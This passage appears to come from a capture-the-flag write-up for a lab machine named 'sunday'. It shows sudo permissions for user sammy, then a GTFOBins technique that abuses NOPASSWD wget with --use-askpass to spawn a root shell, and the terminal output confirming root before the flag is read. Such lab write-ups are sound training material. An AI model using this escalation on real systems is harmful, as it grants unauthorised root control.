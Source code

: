 ```shell
-bash-5.1$ sudo -l
User sammy may run the following commands on sunday:
    (ALL) ALL
    (root) NOPASSWD: /usr/bin/wget
```
If we visit GTFOBins, we will find a way to get root abusing this entering the following commands, one line at a time:
```shell
TF=$(mktemp)
chmod +x $TF
echo -e '#!/bin/sh\n/bin/sh 1>&0' >$TF
sudo wget --use-askpass=$TF 0
```
After entering the 4 command lines above, we will get shell as root:
```shell
-bash-5.1$ TF=$(mktemp)
-bash-5.1$ chmod +x $TF
-bash-5.1$ echo -e '#!/bin/sh\n/bin/sh 1>&0' >$TF
-bash-5.1$ sudo wget --use-askpass=$TF 0
root@sunday:/home/sammy# whoami
root
```
### Root Flag
Now we can get the root.txt flag:
```shell
cat /root/root.txt
```